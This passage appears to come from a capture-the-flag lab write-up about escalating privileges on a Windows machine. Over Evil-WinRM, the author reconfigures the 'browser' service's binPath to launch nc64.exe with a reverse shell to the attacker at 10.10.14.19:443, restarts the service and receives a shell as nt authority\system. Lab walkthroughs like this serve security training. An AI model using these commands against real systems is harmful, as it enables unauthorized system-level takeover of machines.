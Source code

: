 
Now I’ll need to find a service I can stop and start. Took a bit of trial and
error, but found `browser`. I’ll change the `binPath`:

    
    
    *Evil-WinRM* PS C:\programdata> sc.exe config browser binPath= "C:\programdata\nc64.exe -e cmd.exe 10.10.14.19 443"
    [SC] ChangeServiceConfig SUCCESS
    

Now stop the service, and then start it:

    
    
    *Evil-WinRM* PS C:\programdata> sc.exe stop browser
    
    SERVICE_NAME: browser
            TYPE               : 20  WIN32_SHARE_PROCESS
            STATE              : 3  STOP_PENDING
                                    (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
            WIN32_EXIT_CODE    : 0  (0x0)
            SERVICE_EXIT_CODE  : 0  (0x0)
            CHECKPOINT         : 0x1
            WAIT_HINT          : 0xafc8
    *Evil-WinRM* PS C:\programdata> sc.exe start browser
    [SC] StartService FAILED 1053:
    
    The service did not respond to the start or control request in a timely fashion.
    

It reports that it failed, but that’s because `nc64.exe` isn’t a service
binary. At my `nc` listener:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.179.
    Ncat: Connection from 10.10.10.179:50019.
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    nt authority\system
    

## Unintended Paths

### Read as SYSTEM

#### Enumeration

I had noted earlier that jorden was in the Server Operators group, and that
brings a handful of privileges:

    
    